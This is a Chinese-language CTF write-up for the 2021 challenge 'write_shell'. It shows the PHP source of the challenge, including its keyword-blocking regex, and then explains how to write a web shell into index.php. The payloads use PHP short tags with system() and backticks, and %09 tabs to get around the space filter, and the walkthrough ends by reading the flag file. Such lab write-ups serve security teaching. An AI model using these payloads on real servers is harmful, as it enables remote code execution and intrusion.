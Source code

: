 # [红明谷CTF 2021]write_shell %09绕过过滤空格 ``执行

**目录**

[TOC]



看看代码

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
过滤了 木马类型的东西
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}
 
function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
如果是数组 就先变为 变量类型 然后再waf
      }
  }else{
      $input = check($input);
  }
}
这里就是对input 进行waf
 
 
$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
存入 sandbox/md5(当前ip地址)/目录中
 
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
这里可以看我们当前存入的是哪个目录
 
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

还是很简单的

存在两个方式

## 1.正常短标签

我们经过测试 能发现有一个短标签

<?system()?> 没被过滤 可以用于写入php代码

我们可以写入 ls看看 单引号被过滤我们使用双引号

```cobol
?action=upload&data=<?system("ls")?>
```

然后去访问目录下的index.php



<img src="https://i-blog.csdnimg.cn/blog_migrate/5221c587c3fc9c9e520aecc87c9180d5.png" alt="" style="max-height:146px; box-sizing:content-box;" />


执行成功

我们就可以开始想 我们如果要看根目录 我们需要 ls / 只有空格被过滤了 我们如何绕过

网上一搜一大把

最简单的就是tab urlencode 即 %09

```cobol
?action=upload&data=<?system("ls%09/")?>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/415aeadf4598c869f778c2364500bda0.png" alt="" style="max-height:190px; box-sizing:content-box;" />


执行 我们同样payloadcat一下



<img src="https://i-blog.csdnimg.cn/blog_migrate/369a3435b9c8f444f69c132531117ba0.png" alt="" style="max-height:155px; box-sizing:content-box;" />


## 2.短标签配合内联执行

```cobol
?action=upload&data=<?echo%09`ls`?>
```

直接执行

同样的道理访问即可

```cobol
?action=upload&data=<?echo%09`ls%09/`?>
 
?action=upload&data=<?echo%09`cat%09/flllllll1112222222lag`?>
```